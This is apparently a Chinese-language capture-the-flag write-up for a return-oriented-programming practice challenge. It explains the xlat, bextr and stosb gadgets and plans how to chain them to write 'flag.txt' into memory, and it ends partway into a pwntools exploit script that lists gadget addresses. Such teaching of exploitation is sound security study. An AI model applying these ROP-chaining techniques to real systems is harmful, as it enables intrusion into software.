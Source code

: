 这题和上题唯一的区别就是给的gadget不同。但是这个gadget可谓是花里胡哨。3个指令都不熟悉。查！

```
.text:0000000000400628 ; ---------------------------------------------------------------------------
.text:0000000000400628
.text:0000000000400628 questionableGadgets:
.text:0000000000400628                 xlat
.text:0000000000400629                 retn
.text:000000000040062A ; ---------------------------------------------------------------------------
.text:000000000040062A                 pop     rdx
.text:000000000040062B                 pop     rcx
.text:000000000040062C                 add     rcx, 3EF2h
.text:0000000000400633                 bextr   rbx, rcx, rdx
.text:0000000000400638                 retn
.text:0000000000400639 ; ---------------------------------------------------------------------------
.text:0000000000400639                 stosb
.text:000000000040063A                 retn
.text:000000000040063A ; ---------------------------------------------------------------------------
```

xlat指令：将[rbx+al]的值赋值给al，这里的64位解析出来gdb显示为xlatb，赋值后rax高位不变。
bextr指令：byte extract。bextr dest src1 src2
``dest = (src1 >> (src2 & 0xFF)) & (1 << ((src2 >> 8) & 0xFF) - 1)``
即src2的次低字节表示提取bit位数，最低字节表示提取bit位起始处。将src1提取src2中指定的比特位并赋值到dest中。
例如本题中的 bextr rbx rcx rdx，设rcx = 0b10101100 01011101 00010001 11100111，rdx = 0x0509，则提取：
```
									 98 76543210
	rcx = 0b 10101100 01011101 00010001 11100111
								 [   ]
	rbx = 0x8
```
stosb指令：将al赋值给[rdi]

通过上述3个指令，我们需要怎样构造flag.txt字符串呢？

注意到，能够将寄存器的值赋值到内存中的只有stosb指令，在__libc_csu_init函数中有pop rdi; ret的gadget，我们因此可以控制stosb指令将al的值写到哪里。接下来就需要思考如何将正确的值写入al中了。正好xlat指令提供了解决方案，可以将内存中的一个值写入al。但首先，我们需要控制rbx的值，这样才能够在内存中寻找正确的字节。而对于rbx，我们又可以使用bextr指令，控制rcx和rdx后，我们可以在rbx中写入任意值。这样，整个利用的流程也就清晰了。修改rbx -> 修改al -> 修改内存。

在pwnme函数返回时，rax的值为0xb，是一个较小的值。我们可以在rbx中写入LOAD段中有一块全为0的起始地址，这样就能够将rax赋值为0，便于进行后续操作。

之后就是一个字符一个字符地转存到.bss段中即可。注意：stosb指令执行后rdi会自增，因此只需要写一个rdi赋值的gadget即可。

在赋值过程中，我们似乎可以在每赋值一个字节之后就将rax清零，然后精准定位下一个字节。但是构造完毕之后会发现，整个gadget的长度已经超过了写入的限制——0x200。因此我们需要利用上一个字节的值定位下一个字节的值。在一个字节写入完毕后，rax的值应该为这个字节对应的ASCII码，我们需要在rbx中再减去这个ASCII码值，一样可以定位到下一个字节的位置。同时要注意代码中对rcx本身加上了一个值，也要减去。

payload:

```python
from pwn import *
context.log_level = 'debug'

io = process('./fluff')
elf = ELF('./fluff')

xlat = 0x400628
bextr = 0x40062A
stosb = 0x400639
zero_seg = 0x600fa0			# \x00 in this place
write_addr = 0x601038
rdi = 0x4006A3
main_addr = 0x400607

# address of char 'f', 'l', 'a', 'g', '.', 't', 'x', 't'
```
